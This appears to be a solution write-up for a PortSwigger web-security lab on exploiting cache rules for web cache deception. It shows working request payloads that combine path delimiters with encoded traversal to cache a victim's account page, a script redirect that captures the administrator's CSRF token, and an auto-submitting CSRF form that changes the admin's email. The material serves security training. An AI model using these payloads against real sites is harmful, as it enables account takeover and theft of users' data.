










# Exploiting exact-match cache rules for web cache deception
# Objective
To solve the lab, change the email address for the user `administrator`. You can log in to your own account using the following credentials: `wiener:peter`.

List of possible delimiter characters: [Web cache deception lab delimiter list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list).

# Solution
## Analysis
Request to `/my-account` returns information about user's email and username. Request to `/my-account/change-email` allow user to change his email. This functionality is using `CSRF` token.

Responses from static files like `/robots.txt` are cached.

||
|:--:| 
| *Change email functionality* |
||
| *Cached file - robots.txt* |

## Exploitation
### Verification of path delimiter discrepancies
#### Path mapping discrepancies
Origin server doesn't abstract the path to `/my-account`, it is using traditional mapping.

```
GET /my-account             --> HTTP 200 - No caching
GET /my-account/test        --> HTTP 404 - No caching
GET /my-accounttest         --> HTTP 404 - No caching
```

#### Delimiter discrepancies
Enumeration revealed that origin server uses delimiters: `;` `?`. Everything after them is ignored and there is a response `200 OK`.

||
|:--:| 
| *Intruder configuration - deselected URL encoding* |
||
| *Intruder results* |

### Verification of path normalization discrepancies
Exploitation scenario for origin server normalization:
```
URL encoded: /<static-directory-prefix>/..%2f<dynamic-path>
URL encoded: /<static-directory-prefix>%2f%2e%2e%2f<dynamic-path>

URL decoded: /<static-directory-prefix>/../<dynamic-path>
```

Exploitation scenario for cache server normalization:
```
URL encoded: /<dynamic-path>/..%2f<static-directory-prefix>
URL encoded: /<dynamic-path>%2f%2e%2e%2f<static-directory-prefix>

URL decoded: /<dynamic-path>/../<static-directory-prefix>
```

Cache server normalizes requests. Cache server interprets request `/my-account/..%2frobots.txt` as `/robots.txt`, while orign server interprets it as `/my-account/..%2frobots.txt`.

The follwing requests need to be send withing `Age` widow:
```
GET /robots.txt                            --> HTTP 200 - Cache miss
GET /robots.txt                            --> HTTP 200 - Cache hit
GET /test/..%2frobots.txt                  --> HTTP 200 - Cache hit
GET /my-account/..%2frobots.txt            --> HTTP 200 - Cache hit
GET /my-account%2f%2e%2e%2frobots.txt      --> HTTP 200 - Cache hit
```
### Combining delimiter discrepancies and normalization discrepancies
Using the following payload cache server caches response from `/my-account;%2f%2e%2e%2frobots.txt` as `/robots.txt`. Requests to `/my-account;%2f%2e%2e%2frobots.txt` and `/robots.txt` returns the same response - user profile page. 
```
GET /my-account;%2f%2e%2e%2frobots.txt     --> HTTP 200 - Cache miss
GET /my-account;%2f%2e%2e%2frobots.txt     --> HTTP 200 - Cache hit
GET /robots.txt                            --> HTTP 200 - Cache hit
```

||
|:--:| 
| *Request without cache buster* |

The above behaviour, overwriting (poisoning) original `/robots.txt`, can be avoided by using cache buster `?`:
```
GET /my-account;%2f%2e%2e%2frobots.txt?cachebuster
```

||
|:--:| 
| *First request - Cache miss* |
||
| *Second request - Cache hit* |
||
| *Third request without session cookie - Cache hit* |
||
| *Third request without session cookie - Cache hit* |

### Exploitation CSRF via web cache deception
Payload to retrive Administrator CSTF token:
```js
<script>document.location="https://0a96009e045899db80c7c1ef003a003e.web-security-academy.net/my-account;%2f%2e%2e%2frobots.txt?cachebuster "</script>
```

||
|:--:| 
| *Retrieval of Administrator CSRF token from cached response* |

Final payload - CSRF exploit - generated via [CSRF PoC generator](https://csrf-poc-generator.vercel.app/):
```html
<html>
  <body>
    <form action="https://0a96009e045899db80c7c1ef003a003e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@attack.attack" />
      <input type="hidden" name="csrf" value="pYw725ZghAyY3tAnrP4CEUmDdt8TW1rG" />
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```

